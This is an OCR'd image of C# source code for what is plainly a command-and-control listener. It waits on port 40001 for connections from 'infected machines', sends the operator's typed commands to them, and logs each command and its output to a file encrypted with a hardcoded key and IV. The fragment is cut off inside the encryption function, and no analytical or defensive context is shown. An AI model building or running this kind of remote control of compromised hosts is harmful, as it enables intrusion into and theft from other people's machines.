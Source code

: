 ```C#

var  localPort  =  40001;

IPAddress  localAddress  = IPAddress.Any;

TcpListener  listener  =  new  TcpListener(localAddress, localPort);

listener.Start();

Console.WriteLine("Waiting for remote connection from remote agents (infected machines)...");

TcpClient  client  = listener.AcceptTcpClient();

Console.WriteLine("Received remote connection");

NetworkStream  cStream  = client.GetStream();

string  sessionID  = Guid.NewGuid().ToString();

while  (true)

{

string  cmd  = Console.ReadLine();

byte[]  cmdBytes  = Encoding.UTF8.GetBytes(cmd);

cStream.Write(cmdBytes,  0, cmdBytes.Length);

byte[]  buffer  =  new  byte[client.ReceiveBufferSize];

int  bytesRead  = cStream.Read(buffer,  0, client.ReceiveBufferSize);

string  cmdOut  = Encoding.ASCII.GetString(buffer,  0, bytesRead);

string  sessionFile  = sessionID +  ".log.enc";

File.AppendAllText(@"sessions\"  + sessionFile,

Encrypt(

"Cmd: "  + cmd + Environment.NewLine + cmdOut

)  + Environment.NewLine

);

}

}

private  static  string  Encrypt(string  pt)

{

string  key  =  "AKaPdSgV";

string  iv  =  "QeThWmYq";

byte[]  keyBytes  = Encoding.UTF8.GetBytes(key);

byte[]  ivBytes  = Encoding.UTF8.GetBytes(iv);

```